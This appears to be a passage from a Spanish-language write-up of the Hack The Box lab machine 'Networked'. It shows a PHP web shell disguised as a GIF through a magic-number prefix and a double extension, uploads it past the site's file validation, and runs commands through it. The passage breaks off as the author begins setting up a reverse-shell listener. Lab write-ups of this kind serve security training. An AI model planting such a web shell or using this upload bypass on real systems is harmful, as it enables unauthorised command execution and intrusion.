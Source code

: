 Si vemos el contenido del `upload.php`, vemos que cuenta con algunas validaciones para evitar subir archivos maliciosos; lo cual lo vamos a pasar creando un archivo php que nos ayude a ejecutar comandos a nivel de sistema, lo guardaremos como **shell.php.png** cambiaremos el ***Magic Number***.

```php
GIF8;
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"
?>
```

Vamos a tratar de subirlo:

![](/assets/images/htb-networked/networked-web3.png)

Se ha subido nuestro archivo, por lo tanto, vamos a recargar la página de `photos.php` para ver si encontramos nuestro archivo.

![](/assets/images/htb-networked/networked-web4.png)

Si vemos el código fuente, nos encontramos que para este caso nuestro archivo fue guardado en `/uploads/10_10_14_27.php.png`; si le damos click sólo vemos la cadena de texto **GIF8;** pero podemos ejecutar comandos:

![](/assets/images/htb-networked/networked-web5.png)

Ahora si, vamos a tratar de entablarnos una reverse shell a nuestro equipo; por lo tanto, nos ponemos en escucha por el puerto 443:
